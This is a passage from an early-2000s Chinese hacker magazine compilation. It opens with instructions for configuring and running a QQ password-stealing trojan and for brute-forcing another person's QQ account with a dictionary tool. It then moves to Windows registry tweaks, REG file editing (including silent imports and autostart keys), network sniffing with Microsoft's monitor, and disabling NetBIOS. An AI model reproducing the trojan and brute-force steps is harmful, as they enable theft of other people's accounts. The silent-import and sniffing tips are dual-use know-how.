

点击“读取服务端”，找到 ShareQQ4.1.exe 的位置。选好后，就会看到图 2 所示的内容：



按照图二所示配置好后，点击右下角的“保存设置”即可。然后，再运行 ShareQQ4.1.exe。好了，你就等着去收 QQ 密码吧！

以上是利用木马的特性去偷密码；（编者注：关于木马的一些使用技巧，可以参考本刊的“木马记”栏目中的相关文章。）还有远程破解（也称为暴力破解）是怎么回事儿？偷密码是最轻松的，也是最容易成功的一招，远程破解就得花些时间和精力了。它的原理就是使用穷举法，一般通过字典的协助，排列组合，一些口令少的可获得 QQ 密码。



QQExplorer 是 QQ 暴力破解工具里面比较好用的一款工具，我们来看看它到底如何使用。

首先运行 QQExplorer.exe，我们会看到如图三的窗口：

QQExplorer.exe 的配置很简单，如果你不使用代理服务器，就只需要改动要破解的号码即可！不过应该注意的是：QQExplorer.exe 默认的密码列表文件 password.txt 里的密码十分少，你需要去下载一个字典才行。本手册配套光盘中也有收录！字典配置好后，点击开始就行了。这时候，就可以在一旁祈祷要破解的这个号的密码不要设置得太复杂，否则，等上几天几夜可能也破不出一个密码哦！



## 恢复 Win98/2K 的多重启动菜单

先把原来的“c:\boot.ini”文件备份下来，重装完成后，在 Win98 中运行 Win2K 的安装程序，出现提示后选“不重新启动”，再进入“c:\”，把备份下来的“c:\boot.ini”文件覆盖回去，最后删除根目录下所有带 $ 符号的东东（一般有一个目录和两个文件，都是安装 2K 时产生的临时文件），重新启动即可！

# 恢复被损坏的回收站

在回收站中的 Info 文件有时候会损坏，所以有时里面有许多东西看起来还是空的。那我们应该如何改变这一点呢，最简单的办法就是“旧的不去新的不来”，把坏的删除了，系统会自动给你

## 黑客X档案2002-2003年合订本

加一个新的好的文件，这就行了。

在 DOS 命令窗口下，进入回收站（Recycled）目录下，执行下面的命令：

`attrib -h info*.*`

然后执行删除命令。重启计算机后就可以了。

# 如何改变默认浏览器

当用户打开浏览器时通常会进行一个检查，查看当前使用的浏览器是不是默认浏览器。但是许多用户已经关闭了这项检查，而又希望能够使用其它浏览器作为默认浏览器，这些都可以通过编辑注册表达到目的。启动注册表编辑器：

找到 `HKEY_CLASSES_ROOT\http\shell\open\command`，双击 `Default`，将用户希望的浏览器的可执行文件的完全路径输入到这里，例如：输入“C:\Program Files\Internet Explorer\iexplore.exe”，单击“确定”；然后找到 `HKEY_CLASSES_ROOT\http\shell\open\ddeexec\Application`，双击 `Default`，设置浏览器名，如果是 Netscape 则输入 `NSShell`，如果是 IE 则输入 `IExplore`。关闭注册表编辑器。

# 禁止自启动软件的方法

软件安装完成，有时还需要一定的设置才能符合你的要求。比如 QQ，默认情况下安装完成后它会随系统启动而启动，消耗资源不说，也令人厌烦。怎么取消呢？跟我来：点“开始→运行”，输入“msconfig”并确定，弹出“系统配置实用程序”窗口，选择其中的“启动”选项卡，可以看到，“腾讯 QQ”前有一个勾，就是这个勾使得 QQ 会每次“自动启动”。取消它并确定，系统会提示你重新启动。可以立即重启，也可以选“否”，下次开机后 QQ 自然就会老老实实等待我们的招呼了。

不少软件都和 QQ 一样，总是让自己随 Windows 启动。时间一长，你会发现系统托盘区的小图标是越来越多。自启动的程序越多，系统启动时出现问题的几率越大，并且速度也越慢，所以建议大家用上面针对 QQ 的办法，禁止那些你不想要的自动启动程序，只保留防火墙等必需的东西，这于你的系统会大有好处。

# 限制对注册表的匿名访问

对注册表的匿名访问也会造成安全上的问题，可以通过下面的方法加以限制：

打开注册表编辑器；

找到 `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Service\LanManManager\Parameters\NullSessionPipes`，在其中设置允许访问的那些用户即可。

# 禁止对注册表的远程访问

对注册表的远程访问会造成安全上的问题，我们的注册表中保留了机器的配置和安全信息，让别人知道总不是件好事。可以通过下面的方法禁止对注册表的远程访问：

打开注册表编辑器；

找到 `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurePipeServers\WinReg`，设置其值为 1 即可。

# 隐藏网上邻居

我们有时候需要不让别人看到网上邻居这个图标，可以通过下面的步骤完成这样的功能：

打开注册表编辑器；

找到 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下的 `NoNetHood`；

设置其值为 1 则表示看不到网上邻居，如果想使它失效，则将此项目的值设置为 0。

桌面上虽然看不到了，可不代表别人使用不了，这种把戏只能骗骗你的小妹妹而已。别人还是可以使用 `net xxx` 命令完成对机器的访问。因此不要掉以轻心。

# 隐藏网上邻居中的整个网络

或许把它加在安全里面并不合适，可是这也是让非法的使用者费事的一种办法，有时候破坏并不是让人不能用，而是用的时候十分麻烦，但这也是一种防卫的方法。至于这个功能如何实现，就看注册表的了：

打开注册表编辑器；

找到 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下的 `NoEntireNetwork`，设置其值为 1，则看不到整个网络了。

# 前面设置登录警告信息

我们可以在用户访问机器之前发出一些警告，或许能够起一点作用。可以在下面几个地方设置相应的警告信息：

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\WinLogon\LegalNoticeCaption`  
`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\WinLogon\LegalNoticeText`

大家不妨可以试一下。

# 限制别人使用资源管理器

我们可以通过下面的方法进行管理，这里需要说一句，没事千万不要这样做，因为没有什么好处。

打开注册表编辑器；

找到 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下的 `NoRun`，设置其值为 1 表示不能运行，设置为 0 表示可以运行。

# 连接到一个网络共享资源

这个问题虽然简单，可我们觉得还是有必要说明一下。连接到一个网络共享资源有两种方法：

- 使用命令行：`net use 驱动器 \\UNC`；例如：`net use f: \\johnpc\john`；
- 当然也可以使用资源管理器，打开资源管理器后，在“工具”中选择“映射网络驱动器”，选择一个驱动器号，输入共享名或者浏览网络后选择一个共享路径就行了。

这样当然简单，但是对于隐藏目录可能不起作用，因为你看不到，怎么连接，这时用命令行可能比较好一些。当然这都是一些小技巧，不能登大雅之堂了。

# 硬盘右键菜单功能

如果 NT 系统装有 SP2 以上的补丁包，则可以达到这个功能：

打开注册表编辑器；

找到 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`；选择“编辑”下“新建”中的“双字值”，输入 `NoViewContextMenu`，设置其值为 1，关闭注册表编辑器，重新登录后即可。

如果希望恢复，可以将加入的那一项删除，也可以将其值设置为 0。

# 细雕“REG”文件魔盒改值

我们平时对注册表的修改操作大多是通过注册表编辑器 Regedit 来实现的，然而有一天，你登录了某个网站以后，便发现注册表编辑器已经被禁止使用了，怎么办？最简单也是最方便而且不需要任何工具的办法，那就是使用 REG 文件来解除注册表编辑器的限制。

## 何谓 REG 文件

REG 文件实际上是一种注册表脚本文件，双击 REG 文件即可将其中的数据导入到注册表中。利用 REG 文件我们可以直接对注册表进行任何修改操作，它对注册表的操作可以不受注册表编辑器被禁用的限制，因此功能更为强大、灵活。另外，由于 REG 文件可以用任何文本文件编辑工具（例如记事本）进行修改，因此通过它对注册表数据进行修改后，如果发生错误，还可以通过改回 REG 文件中的数据后再导入，从而实现恢复操作。因此它又较之直接用注册表编辑器修改更安全，所以熟练掌握 REG 文件的运用，有时可以起到事半功倍、意想不到的效果。

## 创建 REG 文件

REG 文件的创建是非常简单的，可以通过任何一个文本文件编辑工具来实现。我们就以创建一个可以解除注册表禁用限制的 REG 文件 restore.reg 为例来介绍一下具体过程。打开记事本，在记事本文件中输入以下内容：

```reg
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

保存此文件，在打开的“另存为”对话框中选择好保存路径，再单击“保存类型”中的下拉箭头选择“所有文件”（一定要选择此步，不然保存后的文件会自动加上 TXT 的扩展名），然后在“文件名”中输入“restore.reg”后按“保存”按钮（如图 1）。以后你就可以通过双击这个 restore.reg 来直接解除禁用注册表的限制。

## 对 REG 文件进行修改

我们在利用 REG 文件对注册表进行操作时，要操作的对象有两种：一种是对主键进行操作，一种是对主键下的键值项目进行操作。对主键的操作有添加、删除两种，而对键值项目的操作则分为添加、修改和删除三种。下面我们就一个个来实现。

### 1、对主键的操作

- 1. 添加主键

要想利用 REG 文件在注册表中添加一个主键是非常方便的，只需要在文件体部分直接以“[ ]”的形式写上要添加的主键路径即可。

例如：在 `HKEY_LOCAL_MACHINE\Software` 主键下添加一个名称为“文心软件工作室”的主键，内容如下：

```reg
REGEDIT4

[HKEY_LOCAL_MACHINE\Software\文心软件工作室]
```

- 2. 删除主键

要用 REG 文件在注册表中删除一个主键，在文件体部分“[ ]”括起来的主键路径名前面加上一个“-”符号即可，删除主键操作将会一并删除该主键下的所有子键及其键值项目，所以这是个比较危险的命令，使用要十分注意。例如要删除我们刚才添加的那个主键，内容如下：

```reg
REGEDIT4

[-HKEY_LOCAL_MACHINE\Software\文心软件工作室]
```

### 2、对键值项目的操作

- 1. 添加键值项目

添加键值项目的操作如同注册表编辑器中的“新建”命令，一般来说，键值的数据类型分为三种：字符串值、二进制值和 DWORD 值。在 REG 文件中我们也要设置添加的键值项目的数据类型，如果要添加字符串值，则“=”号后边要用英文的双引号引住数据；如果添加的为 DWORD 类型值，“=”号后边的格式为“dword:数据”；如果添加的为二进制值，“=”号后边则为“hex:数据”。要设置默认值的键值数据时，“=”号前边的键值名称应为“@”符号，并且没有双引号。

例如我们要在 `HKEY_LOCAL_MACHINE\Software\文心软件工作室` 主键下设置默认键值为“文心工作室”，并分别添加“姓名”键值项目（字符串值）、“年龄”键值项目（二进制值）、“婚否”键值项目（DWORD 值）。相应的 REG 文件内容如下：

```reg
REGEDIT4

[HKEY_LOCAL_MACHINE\Software\文心软件工作室]
@="文心工作室"
"姓名"="陈海东"
"年龄"=hex:23
"婚否"=dword:00000000
```

在添加键值项目时，如果该键值所在的主键路径不存在的话，在添加键值项目的同时会自动新建该主键。另外在添加字符串值的键值项目时还有一点值得注意的地方，当这个字符串值是包括文件路径的字符串值时，路径分隔符应用“\\”双斜杠表示，以示和注册表中的主键路径分隔符区别开来。

例如我们要在注册表 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run` 主键下的启动组中添加位于“C:\PROGRAM FILES\BOOBSOFT\屏幕保护控制器”目录下的一个应用程序“屏幕保护控制器.exe”的启动键值项目，REG 文件内容如下：

```reg
REGEDIT4

[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]
"scr"="C:\\PROGRAM FILES\\BOOBSOFT\\屏幕保护控制器\\屏幕保护控制器.exe"
```

- 2. 修改键值项目

新的数据会自动覆盖错误的旧数据，例如，当某些恶意网页修改了你的 IE 标题栏文字，在标题栏中总是显示那个网站的广告文字，很讨厌，我们知道修改 IE 标题栏文字是通过 `HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main` 主键下的“Window Title”（如图 2）键值的数据进行设置的，那么我们就可以通过 REG 文件改回默认的 IE 标题栏文字字串。

图 2　IE 标题栏对应的注册表键值

```reg
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main]
"Window Title"=-
```

- 3. 删除键值项目

用 REG 文件删除键值项目也是很方便的，和删除主键相类似，也是通过“=”号实现的，不过这次不是加在前面，而是把“-”符号放在键值项的等号后面。例如一些恶意网页在修改 IE 标题栏等设置的同时，还修改了开始菜单相关的键值项目数据，使得开始菜单中的“运行”、“查找”、“关闭”等命令都不见了，导入下面的这个 REG 文件删除相应的键值项目后就可以找回开始菜单中的这些命令了。

```reg
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer]
"NoRun"=-
"NoClose"=-
"NoFind"=-
```

下面我们来实现 REG 文件的关联，看看 REG 文件是如何将其中的数据导入到注册表中的。在上面我们认识了 REG 文件，知道了如何创建 REG 文件和通过 REG 文件进行添加、修改、删除操作，这一次我们还看一看 REG 文件是如何将其中的数据导入到注册表中的。

## 导入信息

当我们双击 REG 文件时，系统会首先提示“确定要把 XXX.REG 内的信息添加到注册表吗？”确认询问对话框（如图 3），单击“是”按钮，系统就会按照 REG 文件中所描述的操作对注册表进行修改，完成以后并会给出提示“XXX.REG 中的信息已成功输入注册表”，把 REG 文件中的信息导入注册表的操作称为“合并”。

图 3　确认框

## 修改默认值

在 REG 文件上单击鼠标右键，有三个命令是关于 REG 文件的：合并、Print、编辑。以粗体显示的就是“合并”操作，这也是默认的打开方式，也就是双击时执行的操作。如果你不想让双击 REG 文件时执行“合并”的操作，你可以更改它的默认打开方式为“编辑”。打开资源管理器，单击“查看”菜单中的“文件夹选项”命令，在打开的对话框中单击“文件类型”标签，然后在“已注册的文件类型”列表中找到并选中“注册项”（如图 4），从下面的“打开方式”我们也可以看出，原来 REG 文件默认的“合并”操作关联的是注册表编辑器 Regedit 呀！接下来点击“编辑”按钮，打开“编辑文件类型”对话框，然后选择“操作”列表中的“编辑”，再点击“设为默认值”按钮即可（如图 5），以后双击 REG 文件时就会用记事本来打开进行编辑。

图 4

图 5　把 REG 默认命令设为编辑

在这里顺便告诉大家一个独门绝技，如果你希望 REG 文件在导入时没有任何提示，你可以在图 6 所示的对话框中选中“合并”，然后单击“编辑”按钮，在弹出对话框的命令行中输入 `regedit.exe /s "%1"` 即可。这是使用了注册表编辑器 Regedit 的一个被称为安静导入模式的隐藏参数“/S”，在导入 REG 文件时如果加上“/S”参数，系统就不会再弹出任何提示对话框而直接导入了。

图 6　取消导入时的确认

## 解除禁用

有时在某些电脑中设置了禁用注册表编辑器后，为了防止一些电脑高手使用 REG 文件（看完了这篇文章你也可以成为高手了^_^）来解除对注册表编辑器的限制，会让 REG 文件的默认打开程序设置为其它无关程序，当然这时可以通过修改“文件夹选项”中的相关设置改回来，但还有一种更绝的方法可以使 REG 文件不能用系统默认的方式打开了。

运行注册表编辑器，将 `HKEY_CLASSES_ROOT\.reg` 下的默认值改为“txtfile”，这时 REG 文件的打开方式都指向了 TXT 文本文档。这样更改后不知道的人即便修改“文件类型”中的“注册表项”设置也无法改回来，当然这时系统也已经禁用了注册表编辑器，你是无法通过注册表编辑器修改它了。

图 7　选择 REG 文件的打开方式

但经过笔者的研究发现还有一种方法可以破解这种禁用 REG 文件。我们可以在编辑好的 REG 文件上按住“Shift”键的同时单击鼠标右键，这时系统会让你重新选择打开方式，从中选取用注册表编辑器 Regedit 打开（如图 7）就可以将 REG 文件导入注册表了。

这次对 REG 文件的全面解析，就是希望能给大家多一种解决问题的方法，从根本上解决注册表被修改和被禁用的问题。

## 隐蔽踪迹的嗅探器 SMS

现在网上的嗅探器可谓多如牛毛，但是真正功能强大的又屈指可数：NAI Sniffer Pro、NetXray、微软公司的 SMS 等等。当然还有许多其它功能强大的，这里就不必一一列举了。

微软的 SMS 在这么多个软件中，我觉得起码具有两个优势：一是免费的，当然，前提是你具有 Windows 2000 Server（或 NT Server）或以上的视窗版本的版权。二是与微软平台配合得非常好，虽然简单易用，但功能强大。

## 一、嗅探器简介

在介绍 SMS 前，让我们先了解究竟网络嗅探器为何物？网络嗅探器（英文名为 Sniffer）指的是在网络上窃取数据的工具。

### ◆原理：

网络嗅探的原理是这样的：当我们向网络上的其它计算机发送信息时（它们会被打包成帧），信息（帧）会被分组传送到各个网络节点，而帧中的包头具有目的网络节点的地址用以鉴别是否为目的地，如果匹配就接收这些分组，不匹配就丢弃这些包。但是无论丢弃还是接收都是通过网络适配器（例如网卡）来控制的，因此我们只要在网络适配器上安装具有监测这些帧的软件，再把这些数据记录下来就达到窃取数据的目的。

### ◆功能：

顾名思义，嗅探，无非是想窃取数据为主要目的。凡是通过网络适配器上的所有数据都逃不出它的手掌心，不过也有例外的。除了此功能外，它还是网络管理员中用来排除网络故障的利器，通过与基准数据对比来查找故障源的目的。

### ◆防治：

既然网络嗅探器具有如此大的危害性，那么我们是否不敢在网络上传输数据了呢？那也不完全是这样，总的来说可以通过两种办法来防止数据被窃取：一是使用加密的数据；二是不要在网络上传输机密数据，而是通过第三方设备（例如磁盘、磁带等）来传输。

## 二、SMS 简介

SMS 为 NT（Windows 2000）Server 上捆绑的组件。但是为了出于安全性考虑，Windows 2000 服务器网络监视器只能捕获本地计算机上发送或网络传输的帧，包括广播帧和多播帧。要捕获任何计算机上发送和接收的帧，请使用包含系统管理服务器的网络监视器版本。NT（Windows 2000）Server 中捆绑的就是前一种，只有监测本地计算机数据的功能。如果你需要使用后一种版本是需要额外付费的。

## 三、实战 SMS

以下以 Windows 2000 Server 中文版为例。

### ◆安装

在“控制面板”->“添加／删除程序”->“Windows 组件”->“管理和监视工具”->“网络监视工具”中点出网络监视工具。如图一所示。

### ◆配置

安装成功后，在“开始”->“程序”->“管理工具”中点击网络监视器，就可以打开网络监视器程序。

（1）选择网络适配器

刚打开程序时，它会提示你设置网络，也就是说你要对哪个网络适配器进行监测。如图二所示。

由图二可以看出来，计算机上有两个网络适配器，一个为网卡，另外一个为虚拟的 ADSL 拨号适配器。此时可以根据需要选择一个适配器。如果你选择监测 ADSL 拨号适配器，那么就可以监测通过此适配器的所有数据。选择网卡也是同样道理。

（2）配置其它参数

- ① 点击“捕获”->“地址”。这里可以编辑关于“地址”的选项，例如 MAC 地址、广播地址和 IP 地址等等。但是如果你不是这方面的行家，还是使用默认值。
- ② 此外还有关于缓冲区设置及筛选程序的设置，请保持默认值。

### ◆捕获数据

选中网络适配器后，你就可以开始捕获数据了。此时请点击“捕获”->“开始”，就可以捕获了。如图三所示。

大家恐怕已经知道了，由于显示的是十六进制，只要把它们转换成二进制就可以直观地看到传输的内容了。也就是说，如果传输的是明文（不加密的数据），那么这些传输数据的内容就表露无遗了，这正是黑客们想要的。

另外，这个版本除性能增强外，工具栏里的所有选项：“标识网络监视器用户”“寻找路由器”和“从名称解析地址”都不可用。

## 如何关闭你的 NetBIOS 服务

许多人知道，NetBIOS 是计算机局域网领域流行的一种传输方式，但你是否还知道，对于互联网用户来讲，NetBIOS 则是安全领域的一大隐患。

### 一、NetBIOS 的功过

NetBIOS 是指网络输入输出系统。在计算机网络发展史中，NetBIOS 算得上是历史悠久。早在 1985 年，IBM 公司就开始在网络领域使用 NetBIOS。微软推出第一套基于 Windows 的网络操作系统——Windows For Workgroups（面向工作组的视窗操作系统）时，就采用了一种适用于 Windows 的 NetBIOS 版本，即 NetBEUI。微软当年之所以选择 NetBEUI 作为网络传输的基本协议，是因为它占用系统资源少、传输效率高，尤为适用于由 20 到 200 台计算机组成的小型局域网。此外，NetBEUI 还有一个最大的优点：就是可以方便地实现网络中各单机资源的共享。

今天，TCP/IP 协议已是互联网领域的通用协议，几乎所有接入互联网的电脑都使用 TCP/IP，但同时 NetBEUI 协议也还在局域网领域广泛使用。因此，在你安装 TCP/IP 协议时，NetBIOS 也被 Windows 作为默认设置装进了你的电脑，而电脑也立即具有了 NetBIOS 本身的开放性。换句话讲，在不知不觉间你的上网电脑已被打开了一个危险的“后门”。

NetBIOS 的开放，意味着你的硬盘可能会在网络中被共享。对于在网上四处游走的“不怀好意”的人来讲，他们可以通过 NetBIOS 获知你电脑中的一切！

## 二、找寻电脑中开放的“后门”

在想办法关闭电脑的这个“后门”前，我们有必要先认识这个问题：网络中的其它用户是怎样找到你的系统漏洞的？

你可能认为，在茫茫网海，作为个人上网用户，我的一台电脑是多么的渺小，Hacker 们怎么会对我感兴趣呢？其实，这种想法是很危险的，网上一些不怀好意的用户（很多还称不上是黑客），说不定哪天就会盯上你。

打开的系统后门，一旦扫描程序在网上发现了系统存在着漏洞的计算机，那些恶意攻击者就会设法通过找到的“后门”进入你的计算机，并获取你的信息。而令人深感不安的是，所有的这些非法入侵行为，你可能是毫无知觉的。

## 三、关闭你的“后门”

正如前面所述，系统存在后门的原因是与 TCP/IP 协议捆绑在一起的 NetBIOS。事实上，对于互联网上的单机用户来讲，NetBIOS 是没有什么用处的。因此，你完全可以将它从 TCP/IP 中去掉。下面，介绍现在常见的几种操作系统从 TCP/IP 中解除 NetBIOS 的方法。

如果你使用的是最早版本的 Windows 95，那关闭 NetBIOS 就是一件非常容易的事。找到系统里名为 Vnbt.386 的文件，随便将它改个名，如改为 Vnbt.out，这就算大功告成了。

如果你使用的是 Windows 95 改进版、Windows 98、Windows 98 SE 或是 Windows Me，那就要稍微麻烦一点。首先，打开控制面板，进入“网络”对话窗，在配置表中，查看列表中是否已存在 NetBEUI 组件，如果有，则直接跳过下一段。

如果列表中没有 NetBEUI 组件，则先点击“添加”按钮，在“要安装的网络组件类型”列表中，选择“协议”一项，再次点击“添加”；在“网络协议”对话窗中，选择 Microsoft 的 NetBEUI，然后，插入 Windows 安装盘，点击“确定”即可。

回到“网络”对话窗，在网络组件中选择“拨号适配器”，点击“属性”，在“属性”对话窗中选择“绑定”按钮，将除 TCP/IP 之外其它协议的复选框里的小勾清除掉。

最后，再次回到“网络”对话窗，选择 TCP/IP 协议，点击“属性”，这时有可能会弹出一个警告窗口，不用理它，直接点“OK”就行了。进入 TCP/IP 的“属性”窗口后，选择“绑定”，并将所有网络协议复选框内的小勾去掉，点击“确定”。这时，Windows 会提示你至少应选择一种协议，仍然不用理它，点击“No”，关闭窗口。重新启动你的计算机，这样，你计算机中的 NetBIOS 后门就已被关闭了。

这样一来，NetBIOS 已从你计算机的 TCP/IP 协议中去除。当然，你最好检查一下操作是否成功。回到“网络”对话窗，选择 TCP/IP 协议，点击“属性”，在“属性”窗口中点击 NetBIOS 栏，这时，你会看到“我希望在 TCP/IP 协议中开启 NetBIOS（I want to enable NetBIOS over TCP/IP）”一项，该项前面的复选框应该没有打勾。

